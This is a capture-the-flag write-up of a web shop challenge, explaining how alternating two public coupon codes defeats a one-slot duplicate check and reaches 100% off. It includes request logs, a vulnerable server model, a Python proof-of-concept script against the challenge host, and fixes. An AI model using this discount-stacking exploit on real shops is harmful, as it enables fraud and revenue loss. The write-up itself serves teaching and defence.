









# Halloween Store · Intigriti 1026

### A field that only renders in an impossible state, and the coupon guard that remembers exactly one code

**Author:** Bram Brinkmeier (`grantzero`) · **Event:** Intigriti CTF 1026 (October 2026) · **Category:** Web / Business Logic

**[→ Read the interactive edition](https://grantzero604.github.io/security-writeups/halloween-store/)** — every widget below runs live in the browser against the real model, and the request/response replay uses real captured responses from the challenge server. This page is the static fallback.

> **TL;DR.** A sweet shop sells a €666 chest and gives you €66 of credit. Two public coupon codes get you 50% off, which is not enough. The "coupon already applied" guard remembers only the *last* code you used, not the set of codes on your cart, so a code is caught only when you submit it twice in a row. Alternate the two codes and each applies twice. 100% off. No payload: just four words typed into the promo box in the right order.

---

A Halloween candy shop with a bag, a promo box and a newsletter. The whole challenge reduces to one question: **how do you pay €666 with €66?**

## The idea in plain terms

Picture a shop assistant told "never accept the same voucher twice", who only remembers the *last* voucher they were handed. Give them voucher A, then B, then A again: the last one they saw was B, so A looks new. Swap back and forth and every voucher is accepted as often as you like. That is the whole bug. The rest of this write-up is how I found it, why my first explanation was wrong, and how I proved the second one.

**Want to see it before reading about it?** The [interactive edition](https://grantzero604.github.io/security-writeups/halloween-store/) puts the broken guard next to the fixed one, live. Two buttons, thirty seconds.

## The shop

Two numbers are put in front of you before you go looking for anything. The header carries a store credit:



And the announcement bar hands you a discount code before you have asked for one:


`/api/products` sets the price of the whole challenge: five sweets under €15, and one chest at **€666.00**.



`midnight-vault` is "The Midnight Collection", the only item in its category, the only one `NIGHT20` discounts, and the one described as *"available until midnight—or until somebody claims it."*



`app.js` confirms where the flag lives, and it is not on a product page:

```js
${receipt.flag ? `<div class="flag-box">…<code>${escapeHtml(receipt.flag)}</code></div>` : ""}
```

The flag exists only inside a **completed order**. Checkout is gated server-side on `total <= credit`. So the whole challenge is: get €666.00 down to €66.00 or less. That is **90.1% off**, and the shop is offering me 20%.

## The tell

The interesting line in `app.js` is not in the checkout logic. It is in the cart renderer:

```js
`Promotion ${escapeHtml(promotion.code)} · ${promotion.percent}% off${promotion.count > 1 ? ` × ${promotion.count}` : ""}`
```

`promotion.count > 1`. The client is built to render *the same promotion more than once*, a state the server claims is impossible, because it rejects a coupon that is already applied. **A field that only renders in an impossible state is the challenge telling you where to push.**

Directly beneath it, the UI volunteers two more facts:

> *Codes are case-insensitive and can be removed before checkout.*

Both are true. Both are dead ends, and I took them in order.

## Two honest hints, two walls

**Case first.** If the guard compared raw strings while the lookup normalised case, mixed case would slip through as a second entry:

```
apply NIGHT20  →  ok
apply night20  →  coupon_already_applied
apply NiGhT20  →  coupon_already_applied
```



Genuinely case-insensitive. The hint is honest and the door is shut.

**Then removal**, the classic accounting bug where a removed code's discount lingers and re-applying double-counts:

```
apply  NIGHT20  →  discount €133.20, count 1
remove NIGHT20  →  discount   €0.00, promotions []
apply  NIGHT20  →  discount €133.20, count 1
```

Clean both ways. One thing worth keeping from these: `coupon_already_applied` and `invalid_coupon` are **different errors**, so the endpoint tells you which stage rejected you. The dedupe stage was reachable and strict. Was it strict about *everything*?

## The arithmetic, and a trap worth admiring

Before hunting further: how do discounts combine? The second public code comes from the newsletter box in the footer, which hands `NEWS30` to any address you type. Not a per-subscriber code; I tried three addresses including a repeat and got the same string every time.


```
NIGHT20 (20%)            →  discount €133.20   total €532.80
NIGHT20 + NEWS30 (30%)   →  discount €333.00   total €333.00
```




€333.00 is exactly 50% of €666.00. So percentages are **summed against the subtotal**, not compounded. Compounding would give `666 × 0.8 × 0.7 = €372.96`. That matters enormously: additive percentages reach 100% in finite steps, compounding ones never do.

Now the part I want to credit the author for:

| total discount | total | clears €66.00? |
|---|---|---|
| 50% (both codes, legitimately) | €333.00 | no |
| 70% | €199.80 | no |
| **90%** | **€66.60** | **no, by sixty cents** |
| 100% | €0.00 | yes |

`666` is not chosen for the joke alone. If you find a way to duplicate a coupon and reach for the 20% code (the obvious one, the one printed in the banner), you land on 90%, which is **€66.60 against €66.00 of credit**. The button stays disabled and you conclude duplication was another dead end. You have to duplicate the *30%* code. That is a trap built specifically for the player who is almost right, and I walked into the edge of it.

## A false victory

So: the guard normalises case. Does it normalise whitespace? The client trims before sending:

```js
body: JSON.stringify({ code: input.value.trim() }),
```

That means through the real UI the server has never *had* to handle an untrimmed code. Exactly the kind of gap worth probing, and reachable the moment you stop using the form.

```
{"code":" NIGHT20"}   →  ACCEPTED.  count → 2,  discount €466.20
{"code":"NIGHT20 "}   →  coupon_already_applied
{"code":"\tNIGHT20"}  →  coupon_already_applied
{"code":"NIGHT20\n"}  →  coupon_already_applied
```

One shape out of eight. A single leading space. I had a tidy story (the lookup trims, the guard does not, so the same coupon registers twice) and was ready to write it up.

**It was wrong.** Not slightly wrong. The mechanism was wrong.

The flaw was in how I tested. I ran `" NIGHT20"` *first*, it succeeded, and every later variant was then tested against a cart that already held two entries. **A control run against state you have already mutated is not a control.** On a genuinely fresh session:

```
apply NIGHT20     →  ok
apply " NIGHT20"  →  coupon_already_applied
```

The leading space is trimmed and correctly rejected. It had never been the lever, and I had spent an hour explaining the wrong thing.

## It was never the string. It was the order.

The difference between the two sessions was that in the first, **I had applied `NEWS30` in between**.

```
apply NIGHT20   →  ok                      (sum 20%)
apply NEWS30    →  ok                      (sum 50%)
apply NIGHT20   →  ok, count 2             (sum 70%)   ← duplicate admitted
apply NIGHT20   →  coupon_already_applied              ← same code, caught
```

Those last two requests are byte-identical. The only difference is what was applied immediately before each one.

**The guard remembers exactly one code, the last coupon action, and compares against that instead of against the set of coupons on the cart.** A coupon is only ever caught when you submit it twice *in a row*. Alternate two valid codes and the check never fires, because every request's predecessor was the other code.

No crafted payload. No whitespace. Two public codes, typed in the right order.



A detail that sharpens it: re-applying an existing code increments its `count` *without* moving it to the end of the promotions list. So when I applied `NEWS30` at step 4 above, `NEWS30` was still the last element of the array, and it was accepted anyway. The guard is therefore not reading the array at all. It is a **separate single-slot variable that drifts out of sync with the cart it is supposed to protect**. Removal re-arms it: delete a coupon and the slot is set to whatever promotion now sits last, which you then cannot immediately re-apply.

## Root cause, and checking I actually understand it

The shape that reproduces every observation:

```python
PROMOS = {"NIGHT20": 20, "NEWS30": 30}

def apply_coupon(cart, submitted):
    code = submitted.strip().upper()                  # lookup normalises: trims + casefolds
    if code not in PROMOS:
        return error("invalid_coupon")
    if code == "NEWS30" and not cart.session.subscribed:
        return error("newsletter_required")

    if cart.last_coupon == code:                      # ← ONE SLOT, not a set
        return error("coupon_already_applied")

    cart.promotions[code].count += 1                  # keyed by code; order unchanged
    cart.last_coupon = code
    recompute(cart)

def recompute(cart):
    percent  = sum(p.percent * p.count for p in cart.promotions.values())
    cart.discount = min(cart.subtotal * percent // 100, cart.subtotal)   # clamped
    cart.total    = cart.subtotal - cart.discount
```

One wrong comparison. `cart.last_coupon == code` where it should be `any(p.code == code for p in cart.promotions)`.

Guessing at server code is cheap, so I wrote the model out as a runnable file ([`local-repro.py`](./local-repro.py)) and ran my six live observations through it. If the reconstruction is right it should predict all six, including the two that embarrassed me:

```
  [MATCH] same code twice in a row                      model=coupon_already_applied  live=coupon_already_applied
  [MATCH] different case, straight after                model=coupon_already_applied  live=coupon_already_applied
  [MATCH] leading space, straight after (my wrong theory) model=coupon_already_applied live=coupon_already_applied
  [MATCH] leading space, but after the OTHER code       model=ok                      live=ok
  [MATCH] plain duplicate, after the OTHER code         model=ok                      live=ok
  [MATCH] the full alternation                          model=ok                      live=ok

  6/6 cases match the live server.
```

The same file runs the attack against a `broken=False` cart, where the single slot is replaced by a set membership test. The alternation dies at the third request and the total stops at €333.00, comfortably above the credit. That is the entire fix, demonstrated rather than asserted.

## Try it yourself

I turned the model into a page you can click through: the [**interactive edition**](https://grantzero604.github.io/security-writeups/halloween-store/). Every section above has a live counterpart there — the promo box, the arithmetic steppers, the control that disproves the whitespace theory, the broken-vs-fixed cart, a self-test that checks the model against six recorded cases in your own browser, and a step-through replay of the real captured requests.

One guard is written correctly in the model: the discount is clamped at the subtotal. Push the summed percentage to **350%** in the interactive edition and the total floors at €0.00 with the credit untouched. **Free goods, not refund creation.**

## The full chain

Seven requests from a clean session. All of it works by typing in the promo box, with no developer tools, no intercepting proxy and no crafted request:

```python
#!/usr/bin/env python3
import json, urllib.request
B = "https://challenge-1026.challenges.intigriti.io"
op = urllib.request.build_opener(urllib.request.HTTPCookieProcessor())

def call(path, body=None):
    data = json.dumps(body).encode() if body is not None else None
    r = urllib.request.Request(B + path, data=data, method="POST" if data else "GET")
    if data: r.add_header("Content-Type", "application/json")
    try:
        with op.open(r) as resp: return json.load(resp)
    except urllib.error.HTTPError as e: return json.load(e)

call("/api/newsletter", {"email": "poc@example.com"})          # unlocks NEWS30
call("/api/cart/items", {"productId": "midnight-vault"})       # €666.00

for code in ["NIGHT20", "NEWS30", "NIGHT20", "NEWS30"]:        # 20+30+20+30 = 100%
    cart = call("/api/cart/coupon", {"code": code})["cart"]
    print(f"{code:<8} total €{cart['total']/100:,.2f}")

print("FLAG:", call("/api/checkout", {})["receipt"]["flag"])
```

Four applications is genuinely minimal: you cannot repeat a code consecutively, so three alternating applies cap out at 80%, which is €133.20 and still above the credit.



Note the caption sitting directly under the bug it failed to prevent.



```
INTIGRITI{094638e6-ba2f-4c50-8bb4-41ced0d5debd}
```

The receipt reports `"paid": 0` with `"credit": 6600`. The €666 chest was taken for nothing and the store credit was never even spent.

## Impact

An unauthenticated visitor takes any item in the shop for free, and the credit balance survives intact. There is no account, no victim, no user interaction and no tooling: both codes are public (one printed in the site banner, the other handed to anyone who types an email address), and the attack is four words typed into the promo box.

The €66 credit is incidental, not a constraint. Because the summed discount has no ceiling, the same four requests zero out a basket of any size. In a real shop that is uncapped revenue loss through the front door, by customers who need no technical skill to rediscover it. Someone trying their newsletter code twice out of impatience lands on this by accident.

## Remediation

1. **Compare against the set, not the last action.** `any(p.code == code for p in cart.promotions)`. Better still, key the check on the resolved promotion and make application idempotent per cart, so order cannot matter at all.
2. **Never keep a second copy of state the cart already holds.** The single `last_coupon` slot exists only to answer a question the promotions list already answers. Two sources of truth drifted apart, and that is the whole bug.
3. **Cap the discount in percentage terms, not just in amount**, so a 350% total is rejected instead of silently floored.
4. **Re-price at checkout** from the cart's current contents rather than trusting a running total accumulated across requests.

## Close

Two lessons, and the first is the one I will carry to real targets.

**Read the client for states the server says are impossible.** The front end here was written to display `× 2` on a coupon, a state the server swears it never produces. Code paths that only make sense in a forbidden state are the cheapest map of where a guard is weaker than it claims, and they are sitting in every bundled JavaScript file you already download during recon.

**Second: when a dedupe check fails, ask what the guard remembers, not only how it compares.** Deduplication is usually attacked on the *value* (case, whitespace, Unicode, encoding), and this challenge dangled exactly that bait. The real defect was the **scope of the guard's memory**: one slot standing in for a set. I only found it because a tidy, well-evidenced, wrong theory collapsed when I re-ran it on a clean session. The same mistake shows up whenever a check reads a cached summary (a remembered "last value", a stored `isAdmin` flag) instead of the authoritative record.

Thanks to **Globules** for building this one. Pricing the chest so the near-miss solution lands sixty cents short is a lovely piece of cruelty, and two honest hints that lead nowhere are better misdirection than any filter would have been.

---

*grantzero · Intigriti CTF 1026 · "Halloween Store"*
